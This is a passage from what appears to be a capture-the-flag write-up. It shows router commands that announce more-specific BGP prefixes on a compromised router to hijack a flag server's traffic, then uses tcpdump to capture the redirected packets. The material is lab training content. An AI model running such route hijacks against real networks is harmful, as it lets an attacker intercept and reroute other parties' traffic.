 ```
vtysh
```

![config file](/assets/images/THM/2020-08-13-borderlands/29.png)

Our main objective is to hijack the sever with flag and re-route the flag packet to us. [This article provides a simplified explanation](https://www.cloudflare.com/learning/security/glossary/bgp-hijacking/) of BGP hijacking. Next, enter the BGP configuration mode with the following command.

```
router1.ctx.ctf# config terminal
```

We need to add a route to make sure the flag server route the packet to us.

```
router1.ctx.ctf(config)# router bgp 60001
router1.ctx.ctf(config)# network 172.16.2.0/25
router1.ctx.ctf(config)# network 172.16.3.0/25
router1.ctx.ctf(config)# end
router1.ctx.ctf# clear ip bgp *
```

Do a short check on the route.

![full config](/assets/images/THM/2020-08-13-borderlands/30.png)

It looks like all the traffics routes to us. If you finished with the configuration, read the incoming packet with TCP dump.

```
tcpdump -i eth0 -A
```

The flag will be redirected to you in a jiffy.

## Additional note
